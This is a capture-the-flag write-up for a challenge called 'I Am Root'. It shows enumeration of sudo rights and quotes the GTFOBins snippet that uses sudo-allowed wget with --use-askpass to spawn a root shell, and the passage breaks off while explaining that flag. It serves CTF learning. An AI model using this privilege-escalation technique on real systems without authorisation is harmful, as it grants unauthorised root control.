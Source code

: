 <center>
    <h1>I Am Root<h1>
</center>
{% alert(type="info", icon="info", title="I am Root (400)") %}
There’s an image on the machine that contains sensitive information belonging to 
our client: Lytton Labs. The only problem is that it’s owned by root. Find a way 
to access the JPG image that belongs to root.

Submit the flag as `deadface{flag_text}`.

ℹ️	Use the connection information from Hostbusters: Let Me In
{% end %}

We start with similar enumeration as we did before. Let's list our sudo right:

```sh,name=sudo -l
Matching Defaults entries for mirveal on hostbusters:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for mirveal:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User mirveal may run the following commands on hostbusters:
    (ALL) ALL
    (ALL) NOPASSWD: /usr/bin/wget
```

We technically can run anything as root, as long as we know `mirveal`'s
password, which we don't. So let's focus on the second part of the sudo output:
```
(ALL) NOPASSWD: /usr/bin/wget
```

We can use a online tool called [GTFOBins](https://gtfobins.github.io) to check
if there are any know ways to escalate our privilege with this binary. Nice, we
get a hit with wget. Let's follow the tutorial for sudo:

{% alert(type="note", icon="note", title="GTFOBins - wget") %}
### Sudo
If the binary is allowed to run as superuser by `sudo`, it does not drop the 
elevated privileges and may be used to access the file system, escalate or 
maintain privileged access.

```sh
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```
{% end %}

{% alert(type="tip", icon="tip", title="wget - Privesc explained") %}
You might wonder how this privilege escalation works. It is actually pretty
simple.  First let's check the `--use-askpass` flag:
```sh,name=wget --help
# [...]
--use-askpass=COMMAND       specify credential handler for requesting
# [...]
```
We see that the `--use-askpass` just takes a command for credential handling.
